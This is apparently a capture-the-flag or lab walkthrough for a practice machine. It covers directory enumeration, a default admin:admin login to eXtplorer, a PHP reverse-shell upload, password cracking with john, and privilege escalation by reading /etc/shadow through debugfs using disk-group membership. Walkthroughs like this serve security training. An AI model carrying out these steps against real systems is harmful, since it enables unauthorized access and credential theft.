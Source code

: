 Trying dirb:
```
dirb http://192.168.236.16
```
![](../attachment/052c08759c756d3be98319de7ad83052.png)

We find extplorer:
![](../attachment/d0ce11f318a1d0f399bdfe46198e7522.png)

Trying `admin:admin`
![](../attachment/37f22dedd3b42fc3f9d4d03842882fd1.png)

Now upload a php-reverse-shell.php:
```
http://192.168.236.16/shell.php
```
![](../attachment/67cd97ed5435061ff9369d4148ccb521.png)
We have a shell as www-data.

Now digging in the extplorer:
![](../attachment/4735fca7fda6e481f6c26774d7669f8e.png)
We find hashes

We can crack the dora hash:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
![](../attachment/d5bf60f42bff08400bde5e34c6eaf823.png)
Now we can switch to dora in the shell:
![](../attachment/35a74055aafd25ebc4ca7c86676719e0.png)
We are in disk group so we can access root user.

So now checking the disk `/` is mounted on:
```
df -h
```
![](../attachment/09852b394a9a092c957e6bd64a594131.png)

```
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
```
```
cat /etc/shadow
```
![](../attachment/0eafa6bf8bf046fbe0b1598d1b7939ca.png)

Now cracking the hash with john we get the password for root:
![](../attachment/bdb5668bfba0824e44bc41701217cfab.png)
We can switch to root:
```
su root
```
![](../attachment/8cdd0e5a27259dfc7e128e0aca9d3d8b.png)

